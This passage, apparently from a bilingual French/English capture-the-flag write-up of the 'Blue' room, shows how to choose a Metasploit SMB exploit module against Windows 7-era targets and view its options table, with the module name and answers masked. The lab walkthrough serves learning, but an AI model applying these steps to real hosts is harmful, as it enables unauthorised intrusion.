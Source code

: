 
Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce
</pre>

<br>Vous pouvez voir plusieurs failles, la faille qui nous intéresse est celle qui concerne  le nom de la room: `Blue`

<br>

> [!IMPORTANT]
> <b>exploit/°°°°°°°/°°°/°°°°°°°°°°°°°°°°°°°°</b>

<br>

### Question 2

<pre>
Show options and set the one required value. What is the name of this value? (All caps for submission)

Afficher les options et définir la seule valeur requise. Quel est le nom de cette valeur ?
(Tout en majuscules pour la soumission)
</pre>

<br>

> [!TIP]
> Command: show options
>
> Commande: show options

<br>Sélectionnez l'exploit:

```bash
use °
```
Remplacez le `°` par le numéro de la faille de la réponse précédente.

<br>Ensuite, tapez:

```bash
show options
```

<pre>
Module options (exploit/°°°°°°°/°°°/°°°°°°°°°°°°°°°°°°°°):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/u
                                             sing-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Serv
                                             er 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2
                                             008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Wi
                                             ndows 7, Windows Embedded Standard 7 target machines.
